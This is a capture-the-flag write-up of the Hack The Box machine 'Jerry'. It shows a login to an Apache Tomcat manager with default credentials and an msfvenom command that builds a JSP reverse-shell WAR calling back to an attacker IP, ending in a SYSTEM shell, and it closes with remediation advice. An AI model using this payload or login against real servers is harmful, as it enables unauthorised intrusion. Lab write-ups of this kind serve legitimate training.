



# Jerry — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Status** | ✅ Retired |
| **Key techniques** | Default Apache Tomcat manager credentials, WAR file upload RCE |

---

## TL;DR

Jerry is a single-service box: Apache Tomcat, reachable with its own
undisturbed default manager credentials. Tomcat's manager application is
designed to deploy applications on request, and a malicious WAR file counts
as a valid application — turning a documented admin feature into direct
`NT AUTHORITY\SYSTEM` code execution, since Tomcat runs as SYSTEM by default
on Windows.

---

## Recon & Enumeration

```bash
nmap -sV 10.10.10.95
```



A single open port, 8080, running Apache Tomcat/Coyote. Running `nikto`
against it surfaced the manager application path and flagged working
default credentials directly:

```bash
nikto -h https://10.10.10.95:8080
```



The `/manager/html` path accepted `tomcat:s3cret` — a documented Tomcat
default, unchanged. Verified independently with Metasploit's
`tomcat_mgr_login` scanner, which returned the same result.

---

## Foothold / Initial Access

The Tomcat Manager application exists specifically to deploy web
applications — including accepting a `.war` file upload directly through its
web UI. A WAR file is just a bundled Java web application, and Tomcat will
execute anything inside it once deployed, including a JSP-based reverse
shell:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=5555 -f war > shell.war
```



Uploading it through the authenticated manager interface and browsing to the
deployed application triggered the payload, returning a shell running as
**`NT AUTHORITY\SYSTEM`** — the identity Tomcat itself runs as by default on
Windows, meaning there was no privilege escalation phase at all. Both flags
were located together in a single file under the Administrator's desktop.

---

## Lessons Learned

- **Default credentials on an admin interface are still one of the most
  reliable footholds** — Tomcat manager's defaults being unchanged was the
  entire vulnerability.
- **A "deploy application" feature is inherently a code-execution feature**
  — any account with access to it should be treated as equivalent to code
  execution on the host, not just "an app management permission."
- **The service account a web server runs as matters as much as the
  vulnerability itself** — this exact exploit chain on a properly
  de-privileged Tomcat service account would have needed a real
  privilege-escalation phase; here it didn't, because Tomcat ran as SYSTEM.

---

## Remediation

- Change all default credentials immediately after installing Tomcat (or any
  application server), and disable the manager application entirely if it
  isn't actively needed.
- Run Tomcat under a dedicated, minimally-privileged service account — never
  as SYSTEM/root — so that a manager-application compromise doesn't
  automatically mean full host compromise.
- Restrict network access to `/manager` to trusted management networks only.

---

## Tools used

- `nmap`, `nikto`
- Metasploit (`tomcat_mgr_login`)
- `msfvenom`

---

**See also:** [Windows privilege escalation methodology](../../methodology/windows-privesc.md)

---

**Machine:** [Hack The Box — Jerry](https://www.hackthebox.com/machines/jerry)
